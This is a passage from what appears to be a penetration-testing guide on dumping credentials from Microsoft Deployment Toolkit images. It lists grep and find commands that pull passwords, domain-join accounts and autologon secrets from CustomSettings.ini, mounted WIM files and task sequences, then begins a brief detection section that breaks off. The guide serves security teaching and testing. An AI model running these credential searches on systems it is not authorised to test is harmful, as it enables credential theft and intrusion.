 ## Credential Dumping from MDT Images

Once you have access to MDT images, extracting credentials is the next step.

### Analyzing Bootstrap.ini and CustomSettings.ini

```bash
# Common credentials in CustomSettings.ini
grep -i "password" customsettings.ini
grep -i "username\|userid" customsettings.ini

# Check for admin passwords
grep -i "adminpassword" customsettings.ini

# Check for join domain credentials
grep -i "joindomainusername" customsettings.ini
```

### Extracting Credentials from Mounted Images

```bash
# Search for credentials in scripts
grep -r "password" /mnt/wim/

# Look for hardcoded credentials in XML files
grep -r "<password>" /mnt/wim/

# Check for autologon settings
grep -r "DefaultPassword" /mnt/wim/
```

### Extracting from Task Sequences

```bash
# Locate task sequence files
find /mnt/wim -name "*.xml" | xargs grep -l "password"

# Extract commands from task sequences
python3 ts_parser.py -f /path/to/tasksequence.xml --passwords
```

## Detection & Prevention

### Detecting Password Spraying

- Monitor for multiple failed login attempts across different accounts
- Look for authentication attempts with common passwords
- Implement account lockout policies with incremental timeouts
- Set alerts for authentication from unusual IP addresses or outside normal hours

### Preventing LDAP Attacks
